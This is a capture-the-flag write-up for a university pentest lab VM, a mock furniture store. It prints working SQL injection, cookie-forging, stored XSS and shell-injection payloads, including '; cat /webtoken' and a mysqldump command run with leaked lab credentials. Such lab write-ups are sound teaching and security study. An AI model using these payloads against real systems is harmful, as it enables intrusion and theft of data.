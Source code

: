# CSB Furniture store
This is a brief walkthrough of a simple pentest VM, courtesy of the University of Birmingham.
Token submission [here](https://www.cs.bham.ac.uk/internal/courses/comp-sec/publictokens/).


## Product List Token
Investigate the products: Find a SQL injection attack that makes the site display all of the products it has in the database. One of the products that is not normally displayed includes a token, submit this token to the token submission website.

### Methodology
We first need to inspect the form. Submitting the ' character alone shows that the database is mySQL from the error message. Now we test the search function using some common syntax such as "A t" and "A_TA___" and find out that the SQL statement in use is most likely `LIKE BINARY`, since the search is case insensitive and the operators behave as expected. 

Most likely, the query looks like
```
SELECT *
FROM products
WHERE name LIKE BINARY pattern;
```

So we naively try the query: 

```
' UNION SELECT * FROM products #
```

Which gets us the solution. We see the flag on the next page item called My Little Pony.


## Hidden Market Token
Investigate the website’s cookies and find a way to
get access to the hidden content on the site using an account you have created on the website yourself. You will find a token displayed on the main page of the hidden site, submit this token. (Hint: remember that if a hash is not “salted” it can be vulnerable to an offline dictionary attack.)

### Methodology
Using burp and attempting to sign in, we see that the sign in is done with a simple POST request, sending the credentials in cleartext. There is also a PHP session ID as a cookie.

After logging in to an account, we see that there is an extra cookie. In my case it was 
`040ec1ee950ffc53291f6df0ffc30325=cfcd208495d565ef66e7dff9f98764da`. Looks like a key-value pair, and since they are both 32 bit hex strings, it looks like they might both be MD5 values. (I tried a base64 decoder and only got garbled binary).

I went on a long fucking goose chase to try and use john to reverse the md5 hash, but there is a nice lookup tool on google that revealed the reverse of the two hashes:

040ec1ee950ffc53291f6df0ffc30325 <==> dealer
cfcd208495d565ef66e7dff9f98764da <==> 0

Therefore, we can get the solution by using Burp to replace the second hash string to the md5 hash of '1', which is c4ca4238a0b923820dcc509a6f75849b.

The token is found immediate on the presence of this cookie.


## Admin Page Password Hunt
Find the admin control panel, and from here log into the User Management page by finding the password. On this page you will find another token, submit this.

### Methodology
Visiting the admin page with our spoofed cookie, it prompts us for a password. The page source contains obfuscated code, so lets try seeing what it does. 

```js
var _0x9efc=["\x73\x63\x72\x69\x70\x74","\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74","\x73\x72\x63","\x2F\x6A\x73\x2F\x6D\x64\x35\x2E\x6A\x73","\x6F\x6E\x6C\x6F\x61\x64","\x2F\x6A\x73\x2F\x65\x6E\x63\x2D\x62\x61\x73\x65\x36\x34\x2D\x6D\x69\x6E\x2E\x6A\x73","\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64","\x62\x6F\x64\x79","\x73\x75\x62\x6D\x69\x74","\x76\x61\x6C","\x23\x70\x61\x73\x73\x77\x6F\x72\x64","\x65\x6E\x63","\x65\x32\x30\x37\x37\x64\x38\x37\x38\x33\x32\x37\x30\x32\x36\x63\x33\x63\x63\x34\x65\x33\x35\x61\x36\x65\x37\x30\x33\x37\x64\x37","\x63\x44\x52\x79\x4E\x47\x30\x7A\x4E\x7A\x4E\x79","\x70\x61\x72\x73\x65","\x42\x61\x73\x65\x36\x34","\x6C\x6F\x63\x61\x74\x69\x6F\x6E","\x2F\x61\x64\x6D\x69\x6E\x2F\x75\x73\x65\x72\x73\x2E\x70\x68\x70\x3F","\x3D","\x6F\x6E","\x23\x6C\x6F\x67\x69\x6E","\x72\x65\x61\x64\x79"];$(document)[_0x9efc[21]](function (){s1=document[_0x9efc[1]](_0x9efc[0]);s1[_0x9efc[2]]=_0x9efc[3];s1[_0x9efc[4]]=function (){s2=document[_0x9efc[1]](_0x9efc[0]);s2[_0x9efc[2]]=_0x9efc[5];document[_0x9efc[7]][_0x9efc[6]](s2);} ;document[_0x9efc[7]][_0x9efc[6]](s1);$(_0x9efc[20])[_0x9efc[19]](_0x9efc[8],function (){v=$(_0x9efc[10])[_0x9efc[9]]();h1=CryptoJS.MD5(v).toString(CryptoJS[_0x9efc[11]].Hex);if(h1==_0x9efc[12]){p=CryptoJS[_0x9efc[11]][_0x9efc[15]][_0x9efc[14]](_0x9efc[13]).toString(CryptoJS[_0x9efc[11]].Latin1);h2=CryptoJS.MD5(v+h1).toString(CryptoJS[_0x9efc[11]].Hex);document[_0x9efc[16]]=_0x9efc[17]+p+_0x9efc[18]+h2;} ;return false;} );} );
```

Running it first through a hex deobfuscator gets us something a bit more readable:

```js
var _0x9efc=["script","createElement","src","/js/md5.js","onload","/js/enc-base64-min.js","appendChild","body","submit","val","#password","enc","e2077d878327026c3cc4e35a6e7037d7","cDRyNG0zNzNy","parse","Base64","location","/admin/users.php?","=","on","#login","ready"];$(document)[_0x9efc[21]](function (){s1=document[_0x9efc[1]](_0x9efc[0]);s1[_0x9efc[2]]=_0x9efc[3];s1[_0x9efc[4]]=function (){s2=document[_0x9efc[1]](_0x9efc[0]);s2[_0x9efc[2]]=_0x9efc[5];document[_0x9efc[7]][_0x9efc[6]](s2);} ;document[_0x9efc[7]][_0x9efc[6]](s1);$(_0x9efc[20])[_0x9efc[19]](_0x9efc[8],function (){v=$(_0x9efc[10])[_0x9efc[9]]();h1=CryptoJS.MD5(v).toString(CryptoJS[_0x9efc[11]].Hex);if(h1==_0x9efc[12]){p=CryptoJS[_0x9efc[11]][_0x9efc[15]][_0x9efc[14]](_0x9efc[13]).toString(CryptoJS[_0x9efc[11]].Latin1);h2=CryptoJS.MD5(v+h1).toString(CryptoJS[_0x9efc[11]].Hex);document[_0x9efc[16]]=_0x9efc[17]+p+_0x9efc[18]+h2;} ;return false;} );} );
```

The wonderful folks behind the [JS beautify project](https://beautifier.io) solve our problem even further:

```js
$(document)['ready'](function() {
    s1 = document['createElement']('script');
    s1['src'] = '/js/md5.js';
    s1['onload'] = function() {
        s2 = document['createElement']('script');
        s2['src'] = '/js/enc-base64-min.js';
        document['body']['appendChild'](s2);
    };
    document['body']['appendChild'](s1);
    $('#login')['on']('submit', function() {
        v = $('#password')['val']();
        h1 = CryptoJS.MD5(v).toString(CryptoJS['enc'].Hex);
        if (h1 == 'e2077d878327026c3cc4e35a6e7037d7') {
            p = CryptoJS['enc']['Base64']['parse']('cDRyNG0zNzNy').toString(CryptoJS['enc'].Latin1);
            h2 = CryptoJS.MD5(v + h1).toString(CryptoJS['enc'].Hex);
            document['location'] = '/admin/users.php?' + p + '=' + h2;
        };
        return false;
    });
});
```

The code has the md5 has of the password in plaintext in the if statement, so a reverse MD5 lookup on the string `e2077d878327026c3cc4e35a6e7037d7` reveals that the password is `monkey95`. The token is now on the admin panel in plaintext.


## Stored XSS Vulnerability
Find a stored XSS on one of the pages of the website and use it to
deliver a payload that will raise an alert ”XSS!” when the vulnerable page is visited.
There is no token for this exercise.

### Methodology
The add products page is the clear answer here: the name and description fields are properly escaped, but the price field is not, so putting the script in there will result in a successful exploit.


## Shell Injection Vulnerability
Shell injection: Find a shell code injection attack on the website and use it to view the file /webtoken. Submit this to the token website. (Note: reading the token by exploiting the file upload vulnerability of exercise (4) above is not what you are asked here.)

### Methodology
This is in the file uploads area in the admin panel. It looks like it is doing a simple `ls`, so we simply try `; cat /webtoken` and it works.


## Database Access Token
Get access to the database: Find a file upload attack and use it to upload some php that lets you view the source code of the mysql.php page. On this page you will find the SQL database password. Use this to access the database where you will find another token. Submit this token to the token submission website.

### Methodology
I got lazy here: The key is to use Burp and some googling to create and spoof a polyglot as a picture with .jpg extension. However, since there was a convenient shell injection, I just used the `cat` command to spit out the source code.

```php
<?php
  // create a connection the database engine
  $db = mysql_connect("127.0.0.1", "csecvm", "H93AtG6akq");
  if(!$db)
    die("Couldn't connect to the MySQL server.");

  // change database
  $use = mysql_select_db("csecvm", $db);
  if(!$use)
    die("Couldn't select database.");
?>
```

From here we can inject further shell code to do:
`; mysqldump --user=csecvm --password=H93AtG6akq --all-databases | grep token`

And the token is right there.